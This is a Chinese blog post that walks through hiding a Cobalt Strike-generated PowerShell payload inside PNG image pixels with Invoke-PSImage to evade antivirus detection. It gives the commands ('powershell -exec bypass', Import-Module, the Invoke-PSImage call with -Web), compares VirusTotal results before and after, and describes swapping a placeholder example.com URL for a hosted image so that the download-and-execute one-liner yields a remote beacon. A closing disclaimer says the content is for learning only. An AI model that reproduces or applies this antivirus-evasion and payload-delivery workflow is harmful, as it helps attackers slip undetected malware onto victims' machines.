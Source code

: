 ```yaml
---
layout:     post
title:      Invoke-PSImage实现ps脚本免杀
subtitle:   Ps脚本免杀
date:       2020-05-17
author:     Cooltige
header-img: img/post-bg-ps.jpg
catalog: false
tags:
    - 免杀
---
```


# Invoke-PSImage
Invoke-PSImage可以将一个PowerShell脚本中的字节嵌入到PNG图像文件的像素之中，并生成一行执行命令来帮助我们从文件或Web（传递-Web标记）执行它们。

它会利用图片中每个像素点最后4位有效位的2个颜色值来存储Payload数据，虽然图片质量会受到影响，但是一般来说是看不出来有多大区别的。图片需要存储为PNG格式，由于Payload数据存储在颜色值中，因此这种格式可以进行无损压缩并且不会影响到Payload的执行。它可以接受目前绝大多数的图片类型作为输入，但输出必须为PNG格式，因为输出的图片数据需要是无损的。

图片的每一个像素都需要存储脚本的一个字节，所以你需要根据脚本中的字节数据大小来选择图片（尽可能多的像素点）。

项目地址:`https://github.com/peewpw/Invoke-PSImage`

# 实验前准备
### cs生成powershell脚本

![](/img/ps_bypass_av/dc70ceed77fcabc703cdd5d3f02def6c.png)

payload.ps1
### 准备图片
![](/img/ps_bypass_av/19d3f2e1cd905f9b8b037759249ff2ae.png)

1.jpg

### Invoke-PSImage文件
Invoke-PSImage.ps1
# 开始实验
首先将生成的payload.ps1进行在线查杀
virustotal:`www.virustotal.com`
![](/img/ps_bypass_av/9e700a3d729cd2970c156ecf4acfee77.png)

然后将 payload.ps1 1.jpg Invoke-PSImage.ps1 放在一个文件夹(这里我放在桌面)
```
C:\Users\Administrator\Desktop>powershell -exec bypass

PS C:\Users\Administrator\Desktop> Import-Module .\Invoke-PSImage.ps1

PS C:\Users\Administrator\Desktop>Invoke-PSImage -Script .\payload.ps1 -Image .\1.jpg -Out .\shell.png -Web
```

![](/img/ps_bypass_av/d0d0e0fe549dfd0365fdeaee67498b0c.png)

生成一个shell.png的免杀图片文件

将生成的文件拿去查杀

![](/img/ps_bypass_av/f1294cb6d52dfa01aa17020ae9a446d7.png)

将生成的命令中的`http://example.com/shell.png`替换为你免杀图片的url，带入powershell中执行

![](/img/ps_bypass_av/185f3178d181147b1671c92080b4620d.png)

![](/img/ps_bypass_av/77af8c88af3f28d846b0dd431174eace.png)

完成上线

**本站提供的所有内容仅供学习、分享与交流，禁止用于非法途径，通过使用本站内容随之而来的风险与本站无关**
